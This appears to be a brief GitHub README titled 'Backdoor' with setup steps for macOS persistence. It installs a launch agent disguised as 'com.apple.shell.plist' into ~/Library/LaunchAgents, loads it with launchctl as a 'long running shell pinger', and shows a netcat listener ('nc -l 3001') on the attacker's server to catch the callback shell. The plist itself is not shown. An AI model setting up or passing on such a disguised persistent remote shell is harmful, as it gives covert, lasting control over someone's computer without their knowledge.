 # Backdoor

## Set Up Long Running Shell Pinger

- Change the username in `com.apple.shell.plist`
- Change the dir_of_shell in `com.apple.shell.plist`
- Add `com.apple.shell.plist` to Launch Agents
  - Run `cp com.apple.shell.plist ~/Library/LaunchAgents`
- Start the Agent
  - Run `launchctl load ~/Library/LaunchAgents/com.apple.shell.plist`
- To remove Agent
  - Run `launchctl unload ~/Library/LaunchAgents/com.apple.shell.plist`

## Listening From Server

`nc -l 3001`

